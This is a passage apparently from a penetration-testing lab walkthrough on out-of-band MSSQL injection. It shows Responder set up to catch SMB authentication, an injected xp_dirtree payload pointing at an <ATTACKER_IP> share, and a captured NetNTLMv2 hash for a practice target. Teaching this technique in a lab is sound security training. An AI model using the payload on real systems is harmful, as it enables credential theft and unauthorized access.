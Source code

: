 Next, start `Responder` listening on the VPN network interface. `Make sure the SMB server says [ON]`. If it doesn't, modify `Responder.conf` in the same directory and change the line `SMB = Off` to `SMB = On`.

```shell
sudo python3 Responder.py -I eth0
                                         __
  .----.-----.-----.-----.-----.-----.--|  |.-----.----.
  |   _|  -__|__ --|  _  |  _  |     |  _  ||  -__|   _|
  |__| |_____|_____|   __|_____|__|__|_____||_____|__|
                   |__|
<SNIP>
    SMB server                 [ON]
    Kerberos server            [ON]
    SQL server                 [ON]
    FTP server                 [ON]
    IMAP server                [ON]
    POP3 server                [ON]
    SMTP server                [ON]
    DNS server                 [ON]
    LDAP server                [ON]
    RDP server                 [ON]
    DCE-RPC server             [ON]
    WinRM server               [ON]
    SNMP server                [OFF]
<SNIP>

```

With `Responder` up and running, we can work on the SQL payload. The query we want to run is:

```sql
EXEC master..xp_dirtree '\\<ATTACKER_IP>\myshare', 1, 1;

```

This will attempt to list out the contents of the SMB share `myshare`, which requires authenticating (sending the NetNTLM hash).

We can practice this against `Aunt Maria's Donuts`. The payload we will have to use then looks like this:

```sql
';EXEC master..xp_dirtree '\\<ATTACKER_IP>\myshare', 1, 1;--

```

Running the payload against `api/check-username.php` should return a regular response from the server.

![](8edzcBotG1Bt.png)

If we check `Responder` however, we should now see a NetNTLM hash from `SQL01\jason`.

```shell
sudo responder -vI eth0
                                         __
  .----.-----.-----.-----.-----.-----.--|  |.-----.----.
  |   _|  -__|__ --|  _  |  _  |     |  _  ||  -__|   _|
  |__| |_____|_____|   __|_____|__|__|_____||_____|__|
                   |__|
<SNIP>
[+] Listening for events...
[SMB] NTLMv2-SSP Client   : 192.168.43.156
[SMB] NTLMv2-SSP Username : SQL01\jason
[SMB] NTLMv2-SSP Hash     : jason::SQL01:bd7f162c24a39a0f:94DF80C5ABBA<SNIP>000000000
<SNIP>

```